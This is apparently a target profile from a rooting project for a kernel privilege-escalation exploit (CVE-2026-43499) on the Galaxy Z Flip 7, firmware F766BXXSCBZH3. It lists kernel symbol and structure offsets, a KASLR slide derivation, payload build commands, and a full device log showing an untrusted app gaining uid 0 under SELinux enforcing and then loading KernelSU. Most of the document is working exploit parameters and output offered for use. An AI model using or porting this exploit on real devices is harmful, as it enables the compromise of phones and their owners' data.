

# SM-F766B — F766BXXSCBZH3

Galaxy Z Flip 7 (international, `b7s`) on firmware `F766BXXSCBZH3`
(`BP4A.251205.006.F766BXXSCBZH3`), kernel
`6.6.102-android15-8-abogkiF766BXXSCBZH3-4k`.

Status: **hardware-verified end-to-end through the Root My Galaxy app**,
including KernelSU late-load and a working granted `su` under SELinux
enforcing.

## 1. Firmware identity

| field | value |
| --- | --- |
| model | `SM-F766B` (Galaxy Z Flip 7, international) |
| AP/PDA | `F766BXXSCBZH3` |
| codename | `b7s` |
| product | `essi` |
| build fingerprint | `samsung/b7sxxx/essi:16/BP4A.251205.006/F766BXXSCBZH3:user/release-keys` |
| kernel release | `6.6.102-android15-8-abogkiF766BXXSCBZH3-4k` |
| kernel build | `#1 SMP PREEMPT Thu Aug 13 08:35:43 UTC 2026` |
| vermagic | `6.6.102-android15-8-abogkiF766BXXSCBZH3-4k SMP preempt mod_unload modversions aarch64` |
| compiler | Android clang 18.0.0 (r510928) with PGO, BOLT, LTO, MLGO |
| SoC | Exynos 2500 |
| platform | Exynos S-Boot |
| SDK | 36 |
| ABI | arm64-v8a |
| page size | 4096 |

## 2. Source provenance

```text
boot.img size: 67108864
boot.img SHA-256: 5dfacc90f719b362f519110dc933880aef4d84de62503a706a0ac00cadfa4922

sboot.bin size: 7881520
sboot.bin SHA-256: e040d8efe377d9b00e079f8a2edee17c4d0e2cc29fc4d4d4eeb0abbafb695564
sboot.bin type: Device Tree Blob version 17 (DTB overlay, S-Boot config)
```

The `sboot.bin` is a DTB overlay for the Exynos S-Boot secure bootloader
configuration, not the full S-Boot binary. It configures ITMON nodes,
dump-mode, security policy, and memory-mapped I/O regions.

### S-Boot DTB overlay (version 100)

```text
security:    cp_mem_not_clear=0, dbg_mem_enable=0, seh_enable=0, seclog_enable=0
dump-mode:   enabled, fastboot-support enabled
exception:   pre_log=1, all EL1 data/instruction abort handlers disabled
ITMON nodes: CLUSTER0_P, MODEM_D0/D1/D2, HSI0_P, G3D_P, HSI1_P
MMIO:        0x08bd000000 (2 MB), 0xfc420000 (4 KB)
log buffer:  0x350000 bytes
```

## 3. Extracted image hashes

```text
kernel size: 38844928
kernel SHA-256: 9269e1ca380ace587b1eafe196418150470c089a8202d934f6a512f75f04e344
boot header version: 4
```

The kernel is a GKI (Generic Kernel Image) build. The `abogki` prefix in the
kernel release string identifies this as Samsung's GKI kernel for the Exynos
2500 platform.

## 4. Symbol and BTF recovery

All offsets were extracted from the Stock Firmware recovered from the exact
firmware `F766BXXSCBZH3` kernel image. The kernel is GKI 6.6.102, so the
symbol layout follows the upstream 6.6 `android15-8` ABI with Samsung-specific
modules.

Required target offsets:

| Macro/use | Offset |
| --- | ---: |
| `CALL_USERMODEHELPER_EXEC_WORK_OFF` | `0x000d0ea4` |
| `SLIDE_TRACEFS_WORKER_CALLER_OFF` | `0x000d97e4` |
| `NOOP_LLSEEK_OFF` | `0x003c9590` |
| `COPY_SPLICE_READ_OFF` | `0x002d3144` |
| `CONFIGFS_READ_ITER_OFF` | `0x00495364` |
| `CONFIGFS_BIN_WRITE_ITER_OFF` | `0x00495890` |
| `ASHMEM_IOCTL_OFF` | `0x00d726b8` |
| `ASHMEM_COMPAT_IOCTL_OFF` | `0x00d72d74` |
| `ASHMEM_MMAP_OFF` | `0x00d72dc8` |
| `ASHMEM_OPEN_OFF` | `0x00d72fe8` |
| `ASHMEM_RELEASE_OFF` | `0x00d73070` |
| `ASHMEM_SHOW_FDINFO_OFF` | `0x00d730fc` |
| `ANON_PIPE_BUF_OPS_OFF` | `0x0124d448` |
| `ASHMEM_FOPS_OFF` | `0x0140bce8` |
| `SLIDE_NFULNL_LOGGER_NAME_OFF` | `0x0175fa57` |
| `KMALLOC_CACHES_OFF` | `0x017dc170` |
| `SLIDE_NFULNL_LOGGER_OBJECT_OFF` | `0x02302278` |
| `SYSTEM_UNBOUND_WQ_OFF` | `0x022fae60` |
| `INIT_TASK_OFF` | `0x0230e340` |
| `SLIDE_RANDOM_TABLE_BOOT_ID_DATA_PTR_OFF` | `0x02439510` |
| `ASHMEM_MISC_OFF` | `0x0247cb18` |
| `ROOT_TASK_GROUP_OFF` | `0x0251bd80` |
| `SELINUX_ENFORCING_OFF` | `0x0255e5a8` |
| `SYSCTL_BOOTID_OFF` | `0x026416c0` |

## 5. KASLR slide derivation

The target uses physical P0 oracle (`PHYS_P0_ORACLE=1`) with 32 slide
candidates at `0x10000` step, covering range `0x000000`–`0x1f0000`.

`SLIDE_TRACEFS_EVENT_ID` is `109`, derived from the `__event_sched_*`
symbol ordering in this kernel's `__start_ftrace_events` table.

`SLIDE_PSELECT_WORD_SHIFT` is `0` — derived from the non-LEGACY
`rt_mutex_waiter` compact layout with `PSELECT_ROUTE_NFDS=320`.

`p0_fingerprint.h` was generated from this exact raw Image for all 32 slide
candidates. Each row is 8 words at 0x200-byte intervals from offset
`0x1f0000`. Generation verification compared all 256 emitted qwords back to
their source offsets.

## 6. Physical load proof

The Exynos S-Boot loads the kernel at physical address `0x80000000`. This is
confirmed by the `P0_PHYS_OFFSET` and `P0_KERNEL_PHYS_LOAD` constants in
`target.h`, and validated by the exploit reaching the cache gate with correct
direct-map address math.

```c
#define P0_PHYS_OFFSET       0x80000000ULL
#define P0_KERNEL_PHYS_LOAD  0x80000000ULL
#define KIMAGE_TEXT_BASE      0xffffffc080000000ULL
```

## 7. Key structure offsets

The following structure layouts are specific to this 6.6.102 GKI kernel on
Exynos 2500:

```c
/* file_operations */
#define SIZEOF_FILE_OPERATIONS 0x108

/* task_struct */
#define TASK_USAGE_OFF         0x40
#define TASK_PRIO_OFF          0x84
#define TASK_NORMAL_PRIO_OFF   0x8c
#define TASK_SCHED_TASK_GROUP_OFF 0x348
#define TASK_PI_LOCK_OFF       0x90c
#define TASK_PI_WAITERS_OFF    0x920
#define TASK_PI_TOP_TASK_OFF   0x930
#define TASK_PI_BLOCKED_ON_OFF 0x938

/* page / slab */
#define SIZEOF_PAGE            0x40
#define PAGE_COMPOUND_HEAD_OFF 0x08
#define PAGE_SLAB_CACHE_OFF    0x08
#define PAGE_PAGE_TYPE_OFF     0x30

/* rt_mutex_waiter (compact) */
#define FAKE_WAITER_TREE_PRIO_OFF      0x18
#define FAKE_WAITER_TREE_DEADLINE_OFF  0x20
#define FAKE_WAITER_PI_TREE_ENTRY_OFF  0x28
#define FAKE_WAITER_PI_TREE_PRIO_OFF   0x40
#define FAKE_WAITER_PI_TREE_DEADLINE_OFF 0x48
#define FAKE_WAITER_TASK_OFF           0x50
#define FAKE_WAITER_LOCK_OFF           0x58
#define FAKE_WAITER_WAKE_STATE_OFF     0x60
#define FAKE_WAITER_WW_CTX_OFF         0x68

/* pipe */
#define PIPE_BUFFER_SLOTS       32
#define PIPE_BUF_FLAG_CAN_MERGE 0x10
```

## 8. KernelSU

The `kernelsu/ksud-b7s-F766BXXSCBZH3-kdp` daemon is built for the `b7s`
target. The kernel vermagic is:

```text
6.6.102-android15-8-abogkiF766BXXSCBZH3-4k SMP preempt mod_unload modversions aarch64
```

KSU comes up in LKM jailbreak mode.



## 9. Payload build

The payload was compiled with Android NDK r29:

```sh
make TARGET=b7s-F766BXXSCBZH3 \
  ANDROID_NDK_HOME=/path/to/android-ndk-r29 release
```

The fixed-size release artifact:

```text
artifacts/b7s-F766BXXSCBZH3/cve-2026-43499-app.release.so
size: 104128
SHA-256: 5476ba506416c7ad24eafbd482b96c14c8452f3aeba78b42f94a7f73f54ccb61
```

The KSU daemon:

```text
kernelsu/ksud-b7s-F766BXXSCBZH3-kdp
size: 4873248
SHA-256: 464683b378e38fd7e236443cd5658c0b73cfc573efb22384427dd8152a5293e0
```

## 10. Device validation

### Exploit log (attempt 3/24 succeeds)

```text
[*] Checking bundled support manifest
[+] Support profile: b7s-F766BXXSCBZH3
[*] Downloading payloads
[*] Downloading exploit
[*] exploit verified
[*] Downloading KernelSU
[*] KernelSU verified
[+] Payload download complete
[*] Running kernel exploit
[app] root helper=/data/app/~~h7yIWIFs-7zCcLDfL9-BEA==/dev.busung.s25uroot-xiWHPW-KW5Jb4lYhbn2UYw==/lib/arm64/libcve43499root.so
[app] loading verified payload=/data/user/0/dev.busung.s25uroot/files/payloads/b7s-F766BXXSCBZH3/cve-2026-43499-app.so
[+] preload supervisor pid=19203 attempts=24 base_delay=20000 p0_timeout=45 timeout=120
[+] exploit attempt=1/24 pid=19204 delay=25000 p0_offset=scan
[+] startup context pid=19204 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[+] startup limits pid=19204 NoNewPrivs=0 Seccomp=2 Seccomp_filters=1
[+] build config pid=19204 label=b7s-F766BXXSCBZH3-app-physical-p0-oracle slide=pselect main=pselect
[+] p0 profile pid=19204 phys_offset=0000000080000000 kernel_phys_load=0000000080000000 delta=0000000000000000 slide_logger=ffffff800175fa57 bootid_data=ffffff8002439510 init_task=ffffff800230e340 root_tg=ffffff800251bd80 sysctl_bootid=ffffff80026416c0
[*] p0 pipe oracle prepared base=ffffff89dbf68000 pipes=240 gate_slots=1
[*] mm leaked=ffffff80625d3200 base=ffffff80625d0000 object_index=10
[*] mm target-neighbor slab queued for late drain
[*] mm late cpu-partial drain triggers=32
[*] sk_buff reclaim sends=16/16 mode=1
[*] kernel page prepare mode=1 attempt=1/2 elapsed_ms=6777 base=ffffff80625d0000
[+] slide child context route=pselect pid=26483 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=0 errno=0 elapsed_usec=100224 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=256 ok=0
[+] slide child context route=pselect pid=26487 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=0 errno=0 elapsed_usec=100190 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=256 ok=0
[+] slide child context route=pselect pid=26491 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=0 errno=0 elapsed_usec=100189 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=256 ok=0
[+] slide child context route=pselect pid=26496 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=0 errno=0 elapsed_usec=100189 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=256 ok=0
[+] slide child context route=pselect pid=26500 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=0 errno=0 elapsed_usec=100231 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=256 ok=0
[+] slide child context route=pselect pid=26504 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=0 errno=0 elapsed_usec=100183 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=256 ok=0
[+] slide child context route=pselect pid=26508 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=0 errno=0 elapsed_usec=100200 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=256 ok=0
[+] slide child context route=pselect pid=26512 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=0 errno=0 elapsed_usec=100182 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=256 ok=0
[!] p0 physical slot=0 write window failed after 8 attempt(s)
[-] exploit attempt=1/24 failed status=255
[*] safe retry quiet delay seconds=5
[+] exploit attempt=2/24 pid=26516 delay=20000 p0_offset=scan
[+] startup context pid=26516 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[+] startup limits pid=26516 NoNewPrivs=0 Seccomp=2 Seccomp_filters=1
[+] build config pid=26516 label=b7s-F766BXXSCBZH3-app-physical-p0-oracle slide=pselect main=pselect
[+] p0 profile pid=26516 phys_offset=0000000080000000 kernel_phys_load=0000000080000000 delta=0000000000000000 slide_logger=ffffff800175fa57 bootid_data=ffffff8002439510 init_task=ffffff800230e340 root_tg=ffffff800251bd80 sysctl_bootid=ffffff80026416c0
[*] p0 pipe oracle prepared base=ffffff88dc590000 pipes=240 gate_slots=1
[*] mm leaked=ffffff8022667800 base=ffffff8022660000 object_index=24
[*] mm target-neighbor slab queued for late drain
[*] mm late cpu-partial drain triggers=32
[*] sk_buff reclaim sends=16/16 mode=1
[*] kernel page prepare mode=1 attempt=1/2 elapsed_ms=7682 base=ffffff8022660000
[+] slide child context route=pselect pid=3538 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=8 errno=0 elapsed_usec=100204 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=0 ok=1
[*] p0 physical slot=0 write attempt=1/8 delay=20000 nfds=320 pad=0
[*] p0 gate marker pipe=29 offset=0
[*] p0 pipe gate hits=1 changed=0
[*] p0 reference keeper pid=3549 pipe=29
[+] slide child context route=pselect pid=3550 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=3 errno=0 elapsed_usec=100229 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=0 ok=1
[*] p0 physical slot=1 write attempt=1/8 delay=20000 nfds=320 pad=0
[*] p0 fingerprint sample w0=1200010839679268 w1=cb090108f9400129 w2=f94081088b080e68 w3=d5087809d53c402c w4=d53cd049d53cd049 w5=d503201fd51c214b w6=b2520230cb0f01c2 w7=d5033fdfd51c110b
[*] p0 fingerprint pipe=29 best=7 second=0 slide=00160000
[*] p0 fingerprint changed=1 best=7 second=0 slide=00160000
[+] slide child context route=pselect pid=3557 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=3 errno=0 elapsed_usec=100191 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=0 ok=1
[*] p0 physical slot=2 write attempt=1/8 delay=20000 nfds=320 pad=0
[+] slide child context route=pselect pid=3570 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=2 errno=0 elapsed_usec=100189 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=0 ok=1
[*] p0 physical slot=3 write attempt=1/8 delay=20000 nfds=320 pad=0
[*] p0 physical restore triggers gate=1 probe=1 gate_page=fffffffe00899800 probe_page=fffffffe00007c00
[+] p0 physical elapsed_ms=12999
[+] slide-kaslr-ok source=physical pid=26516 base=ffffffc080160000 slide=0000000000160000
[*] fresh physrw pipe page=ffffff8994538000
[*] mm leaked=ffffff80119c4600 base=ffffff80119c0000 object_index=14
[*] mm target-neighbor slab queued for late drain
[*] mm late cpu-partial drain triggers=32
[*] sk_buff reclaim sends=16/16 mode=0
[*] kernel page prepare mode=0 attempt=1/2 elapsed_ms=12765 base=ffffff80119c0000
[*] app fops slide route parent=ffffff80119c1180 target=ffffff80025dcb28 lock=ffffff80119c4380 delay=20000
[+] slide child context route=pselect pid=14742 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=0 errno=0 elapsed_usec=100188 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=256 ok=0
[*] app fops stage=trigger-return attempt=1 triggered=0
[*] app fops slide attempt=1/1 triggered=0 verified=0 step=0 errno=0
[+] pipe-physrw-summary pid=26516 done=0 root=0 kaslr=1 base=ffffffc080160000 slide=0000000000160000
[+] pipe physrw pid=26516 done=0 root=0 kaslr=1 read_ok=0 write_ok=0 rw64=0/0 uid=4294967295->4294967295
[+] supervisor retained p0_offset=0x160000 gate=0xfffffffe00899800 probe=0xfffffffe00007c00
[-] exploit attempt=2/24 failed status=1
[*] safe retry quiet delay seconds=5
[+] exploit attempt=3/24 pid=14751 delay=30000 p0_offset=0x160000
[+] startup context pid=14751 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[+] startup limits pid=14751 NoNewPrivs=0 Seccomp=2 Seccomp_filters=1
[+] build config pid=14751 label=b7s-F766BXXSCBZH3-app-physical-p0-oracle slide=pselect main=pselect
[+] p0 profile pid=14751 phys_offset=0000000080000000 kernel_phys_load=0000000080000000 delta=0000000000000000 slide_logger=ffffff800175fa57 bootid_data=ffffff8002439510 init_task=ffffff800230e340 root_tg=ffffff800251bd80 sysctl_bootid=ffffff80026416c0
[*] slide forced p0 offset=00160000
[+] slide-kaslr-ok source=forced pid=14751 base=ffffffc080160000 slide=0000000000160000
[*] fresh physrw pipe page=ffffff89ac2d8000
[*] mm leaked=ffffff800b065f00 base=ffffff800b060000 object_index=19
[*] mm target-neighbor slab queued for late drain
[*] mm late cpu-partial drain triggers=32
[*] sk_buff reclaim sends=16/16 mode=0
[*] kernel page prepare mode=0 attempt=1/2 elapsed_ms=11951 base=ffffff800b060000
[*] app fops slide route parent=ffffff800b061180 target=ffffff80025dcb28 lock=ffffff800b064380 delay=30000
[+] slide child context route=pselect pid=23979 uid=10343 euid=10343 gid=10343 egid=10343 attr=u:r:untrusted_app:s0:c87,c257,c512,c768 enforce=unreadable
[*] slide wait_requeue_pi ret=-1 errno=110
[*] slide pselect returned nfds=320 pad=0 ret=8 errno=0 elapsed_usec=100191 ready=1 seen=1 entered=1 calls=1 sched_ok=1 last_sched_ret=0 last_sched_errno=0
[*] p0 physical write status=0 ok=1
[*] app fops stage=trigger-return attempt=1 triggered=1
[*] cfi write ret=35 errno=0
[*] cfi read ret=35 errno=0
[*] p0 restore page=fffffffe00899800 read=8 write=8 verify=8 before=0000000000000000 after=0000000000000000
[*] p0 restore page=fffffffe00007c00 read=8 write=8 verify=8 before=0000000000000000 after=0000000000000000
[*] cfi restoring misc_fops target=ffffff80025dcb28 value=ffffffc08156bce8
[*] cfi starting pipe physrw
[*] pipe caches normal1k=ffffff882d002700 normal2k=ffffff882d002800 cgroup1k=ffffff882d002700 cgroup2k=ffffff882d002800 selected=ffffff882d002800
[*] pipe page idx=0 page=ffffff89ac2d8000 head=fffffffe26b0b600 cache08=ffffff882d002800 cache10=dead000000000122 cache18=0000000000000000 cache20=0000000000000000 type=ffffffff match=1
[*] phys step pipe probe found=1 pipebuf=ffffff89ac2d8000 idx=78 scan=1/1/1
[*] phys step probed read done ok=1 idx=78
[*] phys step probed write done ok=1
[*] phys step read64 done ok=1 value=306365737562656e
[*] root direct start uid=10343 fd=3
[*] root umh queued wq=ffffff882d019a00 pwq=ffffff882d01f400 pool=ffffff882d00a400 work=ffffff800b066000 entry=ffffff800b066008 color=0 counters=0/0/1 writes=1/1/1/1/1
[*] root umh result wake=1 complete=1 retval=0 socket=1
[*] root p0 reference holder ready=1
[*] app fops slide attempt=1/1 triggered=1 verified=1 step=0 errno=0
[+] pipe-physrw-summary pid=14751 done=1 root=1 kaslr=1 base=ffffffc080160000 slide=0000000000160000
[+] pipe physrw pid=14751 done=1 root=1 kaslr=1 read_ok=1 write_ok=1 rw64=1/1 uid=10343->0
[+] stability keeper pid=23991 retaining reclaimed kernel pages
[+] exploit completed attempt=3/24
[app] payload constructor returned

[+] Bootstrap root acquired
[*] Late-loading KernelSU
[+] KernelSU staging complete
[+] KernelSU control channel verified
[*] KernelSU active
[+] Installation complete
```

### Summary

- **Attempt 1/24**: P0 physical write window failed (8/8 writes returned
  `status=256 ok=0`). Deterministic — the pselect slide probe did not land in
  a writable window.
- **Attempt 2/24**: KASLR bypass succeeded (slide `0x160000`), P0 fingerprint
  matched 8/8 words, but the app fops trigger-return stage failed to fire
  (`triggered=0`). Supervisor retained the slide for the next attempt.
- **Attempt 3/24**: Slide forced to `0x160000` from attempt 2. Full chain
  completed: P0 gate/probe restore, CFI read/write, pipe physical R/W,
  root UMH (`retval=0`, socket established), UID `10343→0`. KernelSU
  staged, control channel verified, active.

## 11. Scope

Verified only for `SM-F766B` / `F766BXXSCBZH3` (international, Exynos 2500,
`abogki` GKI). The `targets-v3.json` feed must list only `SM-F766B` for this
payload.

Both temp root and KernelSU are per-boot (locked bootloader; no persistent
`boot.img` modification). Re-establish after reboot.
